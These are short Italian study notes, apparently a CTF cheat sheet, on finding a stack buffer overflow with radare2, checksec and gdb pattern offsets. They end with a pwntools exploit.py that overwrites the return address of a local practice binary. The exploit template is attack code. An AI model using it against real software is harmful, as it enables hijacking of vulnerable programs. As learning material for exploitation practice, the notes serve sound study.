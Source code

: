 radare2 .\nome_file

aaa

afl

iz	[VEDI LISTA OBA CHE FA]
ie	[VEDI ENTY POINT]
iM	[VEDI MAIN]

pdf @nome_funzione   o   s nome_funzione 	[MOSTA nome_funzione]
			 pdf	

V 	[VISUAL APPESENTATION OF THE BINAY]


_____________________________

checksec 
______________________________

Se trovi segmentation fault: (fgets, in quanto funzione vecchi)
______________________________

un volta che si che è seg. fault:

gdb -q .\file_name

pattern crete 100000 

run

*paste di quello che ti dà il pattern*

Guarda I REGISTRI [RBP] e [RSP] che in questo caso sono quelli con là nostra stinga
Guarda L'INDIRIZZO CONTENUTO NEL REGISTRO [RIP] e Ricordalo per dopo

copia i primi 3 char di ogni Registro e fai:

pattern search ***        [*** sono i 3 char]

calcola l'offset di entrambi (il secondo Registro è il più accurato) e Ricordatelo
___________________________________________

Crea UN FILE exploit.py

from pwn import *

p = process('./pwn1')
garbage = 'a' * 140    #OFFSET
target_address = 0x080484ad  #CAMBIALO
address = p32(target_address)
msgin = garbage.encode('ascii') + address
p.sendline(msgin)
p.interactive()




